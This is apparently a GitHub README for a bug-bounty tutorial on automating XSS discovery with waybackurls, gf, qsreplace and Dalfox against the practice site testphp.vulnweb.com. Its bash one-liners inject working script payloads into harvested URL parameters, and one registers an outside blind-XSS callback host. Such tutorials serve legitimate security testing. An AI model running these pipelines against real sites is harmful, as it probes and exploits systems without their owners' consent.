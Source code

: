 # Automate XSS using Dalfox, WaybackURL, GF Patterns.

<b> Make sure you have Go installed on your Machine </b> 

### To Install Go on your Machine:

```
  1) sudo apt install -y golang
  2) export GOROOT=/usr/lib/go
  3) export GOPATH=$HOME/go
  4) export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
  5) source .bashrc
```

## How to Hunt Blind XSS using Dalfox? 

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use GF patterns to find Possible XSS Vulnerable Parameters.
- Use Dalfox to find XSS.

* Steps :
```bash
waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
```
## How to Hunt Reflected XSS?

- Use Waybackurls by Tomnomnom to Fetch URLS for Specific Target.
- Use qsreplace for Accept URLs on stdin, replace all query string values with a user-supplied value, only output each combination of query string parameters once per host and path.

* Steps :
```bash
waybackurls testphp.vulnweb.com| grep '=' | qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
## Find the parameters which are not filtering special characters - One Liner
```bash
echo "test.url" | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|js|css|gif|tif|tiff|png|woff|woff2|ico|pdf|svg|txt)" | qsreplace '"><()'| tee combinedfuzz.json && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "\"><()" && echo -e "$host \033[91m Vullnerable \e[0m \n" || echo -e "$host  \033[92m Not Vulnerable \e[0m \n"; done | tee XSS.txt
```

## Tools Download Links:- 

* 1:- [Dalfox](https://github.com/hahwul/dalfox)
* 2:- [Waybackurls](https://github.com/tomnomnom/waybackurls)
* 3:- [GF](https://github.com/tomnomnom/gf)
* 4:- [GF Patterns](https://github.com/1ndianl33t/Gf-Patterns)
* 5:- [qsreplace](https://github.com/tomnomnom/qsreplace)

Find Script here : [QuickXSS](https://github.com/theinfosecguy/QuickXSS)


If you have any Questions, Reach out to me via [Twitter](https://twitter.com/g0t_rOoT_)
## Twitter : [Fani Malik](https://twitter.com/fanimalikhack)
## Twitter : [Faizee Asad](https://twitter.com/faizee_asad)
## Twitter : [Prince Prafull](https://twitter.com/princeprafull3)
